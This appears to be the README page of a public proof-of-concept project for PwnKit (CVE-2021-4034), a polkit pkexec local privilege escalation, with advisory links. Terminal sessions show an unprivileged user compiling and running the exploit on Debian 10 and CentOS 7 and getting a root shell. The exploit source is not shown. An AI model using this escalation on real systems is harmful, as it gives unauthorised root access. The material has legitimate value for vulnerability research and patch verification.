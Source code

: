 ```yaml
---
slug:  "/projects/poc"
date:  "2022-06-14"
title: "poc"
icon:  "c"
---
```


# CVE-2021-4034
PoC for PwnKit: Local Privilege Escalation Vulnerability in polkit’s pkexec (CVE-2021-4034)

https://seclists.org/oss-sec/2022/q1/80  
https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034

# PoC

Verified on Debian 10 and CentOS 7.

```
user@debian:~$ grep PRETTY /etc/os-release
PRETTY_NAME="Debian GNU/Linux 10 (buster)"
user@debian:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
user@debian:~$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
user@debian:~$ ./cve-2021-4034-poc
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(user)
```

```
[user@centos ~]$ grep PRETTY /etc/os-release
PRETTY_NAME="CentOS Linux 7 (Core)"
[user@centos ~]$ id
uid=11000(user) gid=11000(user) groups=11000(user) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[user@centos ~]$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
[user@centos ~]$ ./cve-2021-4034-poc
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root),11000(user) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
sh-4.2# exit
```
